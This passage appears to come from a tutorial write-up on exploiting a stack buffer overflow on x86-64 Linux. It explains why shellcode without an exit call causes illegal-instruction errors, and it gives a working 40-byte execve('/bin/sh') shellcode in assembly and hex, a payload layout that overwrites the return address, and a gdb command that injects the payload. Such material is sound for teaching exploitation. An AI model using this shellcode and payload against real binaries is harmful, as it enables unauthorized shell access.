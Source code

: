 I later found out why: These short shell codes don't have an exit function call at their end, it means that once I injected these shell codes in the buffer and fucked up the memory, the binary was still trying to execute these fucked up instructions and thus, was reporting "illegal instruction error".

*Side note : I was able to get a shell with these simple shell codes but only by using another method : an env variable. With this method you don't put your shell code in the buffer but in an environment variable and then you give the return address the address of that variable. That way you don't fuck up the memory and I didn't get any error.*

So bellow is a similar simple shell code that i found but it includes an exit call at the end that will prevent the SIGILL errors.

The assembly version:

```assembly
    push $0x3b
    pop %eax
    xor %rdx,%rdx
    movabs $0x68732f6e69622f2f,%r8  
    shr $0x8, %r8                   
    push %r8
    mov %rsp, %rdi
    push %rdx
    push %rdi
    mov %rsp, %rsi
    syscall				 <------ from the top to this point it's too execute /bin/sh
    push $0x3c
    pop %eax
    xor %rdi,%rdi
    syscall 			<------ The last 4 lines are for the exit function.
```

The hex version:

```shell
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
```

This shell code is 40 bytes . I'll cover more about shell codes in the last part of this write up.

# 0x3 Finding the address of the shell code

Our payload will be 158 bytes in total : 152 to fill the buffer and 6 to override the return address pointing to the address of the shell code in the buffer.

PAYLOAD = JUNK(100 bytes) + SHELL CODE (40 bytes) + JUNK (12 byes) + RETURN ADDRESS (6 bytes).

There are no specific reason why I put 100 bytes before and 12 bytes after the shell code. You can try different things as long as the total without the return address is 152.

Let's fill the junk with 'A's for now, and our return address with 6*'B'

```shell
(gdb) run $(python -c "print 'A'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")
```
